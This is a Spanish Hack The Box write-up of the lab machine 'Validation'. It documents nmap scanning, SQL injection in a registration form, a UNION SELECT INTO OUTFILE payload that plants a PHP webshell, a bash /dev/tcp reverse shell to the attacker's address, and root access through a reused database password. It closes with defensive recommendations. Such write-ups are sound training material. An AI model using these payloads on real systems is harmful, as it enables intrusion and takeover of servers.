# Validation — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** TRX  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Formulario de registro con SQL Injection en el campo `country` · Error-based SQLi (ruta absoluta filtrada) · RCE vía `UNION SELECT ... INTO OUTFILE` (webshell) · Reverse shell · Credenciales de `config.php` reutilizadas en `su root` → root

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — SQL Injection en el registro](#3-acceso-inicial--sql-injection-en-el-registro)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.30.59
```



Salida obtenida:

```text
64 bytes from 10.129.30.59: icmp_seq=1 ttl=63 time=34.2 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP, suficiente para confirmar que el host está activo. El valor `TTL=63` indica que estamos frente a una máquina **Linux** (los sistemas Linux inician el TTL en 64).

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.30.59 -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza velocidad mínima de paquetes |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
22/tcp   open  ssh
80/tcp   open  http
4566/tcp open  kwtc
8080/tcp open  http-proxy
```

> 💡 Cuatro puertos abiertos, pero solo el `80` es una web pública sin restricciones aparentes — los otros dos (`4566`, `8080`) apuntan a servicios internos que probablemente solo son accesibles una vez tengamos ejecución de comandos en la máquina.

---

### Enumeración detallada

Una vez identificados los puertos abiertos, lanzamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sCV -T5 -n -p22,80,4566,8080 10.129.30.59 -oN Ports
```



Salida relevante:

```text
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
```

### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

> 💡 El `403 Forbidden` en el `4566` y el `502 Bad Gateway` en el `8080` (ambos servidos por `nginx`, distinto del `Apache` del puerto 80) sugieren proxies inversos hacia servicios que, en este momento, no están arrancados o no aceptan conexiones desde fuera — probablemente procesos internos que solo escuchan en `localhost` y que veremos mejor una vez tengamos shell.

---

## 2. Enumeración del servicio web

Accedemos al puerto `80`:

```text
http://10.129.30.59
```



La página muestra un formulario **"Join the UHC - September Qualifiers"** ("UHC" = *Ultra Hardcore*, un formato de torneo) con dos campos: un nombre de usuario y un desplegable de país, y un botón "Join Now". Es un formulario de inscripción a un torneo — la superficie de ataque más obvia es cómo procesa esos dos campos en el backend.

---

## 3. Acceso inicial — SQL Injection en el registro

### Interceptando el registro

Capturamos el envío del formulario con **Burp Suite**:

```http
POST / HTTP/1.1
Host: 10.129.30.59
...
username=admin&country=Brazil
```



```text
HTTP/1.1 302 Found
Set-Cookie: user=21232f297a57a5a743894a0e4a801fc3
Location: /account.php
```

El servidor responde con una cookie `user` (que resulta ser el hash MD5 de `admin`) y redirige a `/account.php`, donde presumiblemente se muestra la información de la inscripción.

### Probando la inyección en `country`

Repetimos el registro cambiando el valor de `country` por un payload de SQL Injection:

```http
username=admin&country=Brazil' union select database()-- -
```



Visitamos `/account.php` con la cookie obtenida:



```html
Welcome admin
Other Players In Brazil' union select database()-- -
registration
```

El valor de `country` se refleja tal cual dentro de una consulta que `account.php` ejecuta para listar "otros jugadores de ese país" — el campo no está saneado, así que es directamente inyectable.

### Confirmando la inyección con un error controlado

Enviamos deliberadamente una consulta con una función mal formada para forzar un error SQL:

```http
username=admin&country=Brazil' union select database(sasdasd)-- -
```



```text
Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool
in /var/www/html/account.php:33
```

> 💡 Este error confirma dos cosas a la vez: primero, que la inyección es real (el motor SQL intentó ejecutar nuestra función inventada y falló, en vez de tratar el `country` como texto plano); segundo, nos regala la **ruta absoluta del document root** (`/var/www/html/`), imprescindible para el siguiente paso, ya que vamos a escribir un fichero directamente en el sistema de ficheros y necesitamos saber dónde aterrizará.

---

## 4. Obtención de shell

### RCE vía `UNION SELECT ... INTO OUTFILE`

Con la ruta absoluta ya confirmada, abusamos de que el usuario de MySQL que ejecuta la consulta tiene privilegio **FILE** para escribir una webshell PHP directamente en el document root usando `INTO OUTFILE`:

```http
username=admin&country=Brazil' union select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/prueba.php";-- -
```



### Explicación del payload

| Fragmento | Función |
|---|---|
| `' union select ... -- -` | Cierra la cadena original e inyecta una segunda consulta vía `UNION` |
| `"<?php system($_GET['cmd']); ?>"` | El contenido literal que MySQL va a volcar al fichero |
| `into outfile "/var/www/html/prueba.php"` | Instruye a MySQL a escribir el resultado de la consulta como fichero en disco, en una ruta dentro del document root de Apache |

Accedemos a la webshell recién creada:

```text
http://10.129.30.59/prueba.php?cmd=id
```



```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

✅ RCE confirmada como el usuario del servidor web.

> 💡 `UNION SELECT ... INTO OUTFILE` es una de las primitivas de RCE más directas en MySQL/MariaDB cuando el usuario de la base de datos tiene el privilegio `FILE` y `secure_file_priv` no restringe la escritura fuera de un directorio concreto — no hace falta ninguna extensión adicional, basta con conocer (o adivinar) una ruta escribible dentro del document root del servidor web.

### Reverse shell

Generamos un payload de reverse shell en Bash con un generador de payloads (revshells.com):

```text
/bin/bash -i >& /dev/tcp/10.10.14.200/443 0>&1
```



Ponemos un listener a la escucha y lanzamos el payload codificado en la URL a través del parámetro `cmd` de la webshell:

```bash
nc -lvnp 443
```



```text
connect to [10.10.14.200] from (UNKNOWN) [10.129.30.59] 48862
www-data@validation:/var/www/html$
```

✅ Shell interactiva como **`www-data`**.

---

### Escalada de privilegios — credenciales de `config.php` reutilizadas

Listamos el contenido del document root:

```bash
ls -la
```



```text
-rw-r--r-- 1 www-data www-data  191 Sep  2  2021 config.php
-rw-r--r-- 1 mysql    mysql      31 Jul 10 16:46 prueba.php
```

El propietario de `prueba.php` es `mysql`, confirmando que el fichero lo creó literalmente el proceso del motor de base de datos a través del `INTO OUTFILE`, no la aplicación web.

Leemos `config.php`, el fichero de conexión a la base de datos de la propia aplicación:

```bash
cat config.php
```



```php
$servername = "127.0.0.1";
$username = "uhc";
$password = "uhc-9qual-global-pw";
$dbname = "registration";
```

Probamos esa misma contraseña contra el usuario `root` del sistema, apostando por la reutilización de credenciales entre la base de datos y el propio sistema operativo:

```bash
su root
```



```text
Password: uhc-9qual-global-pw
root@validation:/var/www/html# whoami
root
```

✅ Compromiso total de la máquina.

> 💡 Reutilizar la contraseña de una cuenta de servicio (aquí, el usuario de MySQL de la propia aplicación) como contraseña del usuario `root` del sistema es un fallo de higiene de credenciales muy común — y aquí resultó ser el único paso necesario entre `www-data` y `root`, sin necesidad de explotar ningún binario SUID ni entrada de `sudoers`.

---

## 5. Post-explotación y flags

### Flag de usuario

```bash
cat /home/*/user.txt
```

### Flag de root

```bash
cat /root/root.txt
```

✅ Máquina completada.

---

## 6. Lección aprendida

Esta máquina es un ejemplo directo de cómo una única inyección SQL sin sanear, combinada con privilegios excesivos del motor de base de datos y reutilización de contraseñas, compromete la máquina de punta a punta sin necesidad de ninguna técnica avanzada de post-explotación.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Campo `country` del formulario de registro sin sanear | `POST /` → `account.php` | Permite **SQL Injection** completa |
| Mensajes de error de PHP/MySQL no controlados | `account.php:33` | Revela la ruta absoluta del document root |
| Usuario de MySQL con privilegio `FILE` y `secure_file_priv` sin restringir | Motor de base de datos | `UNION SELECT ... INTO OUTFILE` permite escribir una webshell arbitraria → RCE |
| Credencial de la base de datos (`config.php`) igual a la contraseña de `root` | `/var/www/html/config.php` | Escalada directa de `www-data` a `root` sin técnicas adicionales |

---

## Recomendaciones defensivas

- Usar siempre consultas parametrizadas (prepared statements) en vez de concatenar entradas de usuario directamente en SQL.
- Desactivar `display_errors` en PHP en producción y capturar las excepciones de conexión/consulta a base de datos en vez de imprimirlas al usuario — el stack trace reveló la ruta absoluta del servidor.
- Conectar las aplicaciones web a la base de datos con un rol de **mínimo privilegio**: sin el privilegio `FILE`, `INTO OUTFILE` no es explotable.
- Configurar `secure_file_priv` en MySQL/MariaDB para restringir `LOAD_FILE`/`INTO OUTFILE` a un directorio controlado fuera del document root del servidor web.
- Nunca reutilizar la contraseña de una cuenta de servicio (bases de datos, aplicaciones) como contraseña de una cuenta del sistema operativo, y mucho menos de `root`.
- Restringir permisos de escritura del usuario que ejecuta MySQL sobre el document root de Apache — si el proceso de base de datos no puede escribir ahí, esta cadena de ataque se rompe en el primer paso.
- Auditar periódicamente los ficheros del document root en busca de webshells u otros artefactos no versionados (`prueba.php` no pertenece al código legítimo de la aplicación).

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
